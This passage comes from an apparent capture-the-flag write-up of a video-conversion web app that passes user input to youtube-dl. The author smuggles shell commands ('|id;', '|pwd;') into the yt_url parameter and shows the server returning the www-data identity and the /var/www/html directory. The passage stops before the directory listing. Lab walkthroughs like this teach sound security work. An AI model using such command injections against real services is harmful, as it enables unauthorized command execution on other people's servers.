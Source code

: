 Error - 
```bash
{"status":127,"errors":"WARNING: Assuming --restrict-filenames since file system encoding cannot encode all characters. Set the LC_ALL environment variable to fix this.\nERROR: u'id' is not a valid URL. Set --default-search \"ytsearch\" (or run  youtube-dl \"ytsearch:id\" ) to search YouTube\nsh: 1: -f: not found\n","url_orginal":"id","output":"","result_url":"\/tmp\/downloads\/61a215d9e9a4a.mp3"}
``` 

So it is running something called `youtube-dl`. Lets google and see what actually this is.

![youtube-dl](../../assets/img/posts/Convertmyvideo/youtube-dl.png)

> Seems like it is a command line tool to download or convert youtube videos!
>
>It is run with the following syntax - `youtube-dl [OPTIONS] URL [URL...]`


![syntax](../../assets/img/posts/Convertmyvideo/syntax.png)

Assuming there is a **command injection** vulnerability , I gave this i/p in the yt_url parameter - `|id;`

NOTE- 
* `|` - will act as command separator
* `;` - acts as a line terminator ie ensures nothing executes after this .

![intercept3](../../assets/img/posts/Convertmyvideo/intercept3.png)

Now the error response was like this - 
```bash
{"status":127,"errors":"WARNING: Assuming --restrict-filenames since file system encoding cannot encode all characters. Set the LC_ALL environment variable to fix this.\nUsage: youtube-dl [OPTIONS] URL [URL...]\n\nyoutube-dl: error: You must provide at least one URL.\nType youtube-dl --help to see a list of all options.\nsh: 1: -f: not found\n","url_orginal":"|id;","output":"uid=33(www-data) gid=33(www-data) groups=33(www-data)\n","result_url":"\/tmp\/downloads\/61a21a622915c.mp3"}
```
Note that it returned the result of our `id` command which is `uid=33(www-data) gid=33(www-data) groups=33(www-data)`

So now since we could execute commands , lets look at what directory we are in !

![intercept4](../../assets/img/posts/Convertmyvideo/intercept4.png)

Response -
```bash
{"status":127,"errors":"WARNING: Assuming --restrict-filenames since file system encoding cannot encode all characters. Set the LC_ALL environment variable to fix this.\nUsage: youtube-dl [OPTIONS] URL [URL...]\n\nyoutube-dl: error: You must provide at least one URL.\nType youtube-dl --help to see a list of all options.\nsh: 1: -f: not found\n","url_orginal":"|pwd;","output":"\/var\/www\/html\n","result_url":"\/tmp\/downloads\/61a21be02e591.mp3"}
```
So we are in the `/var/www/html` directory .

Lets check out the contents of the directory
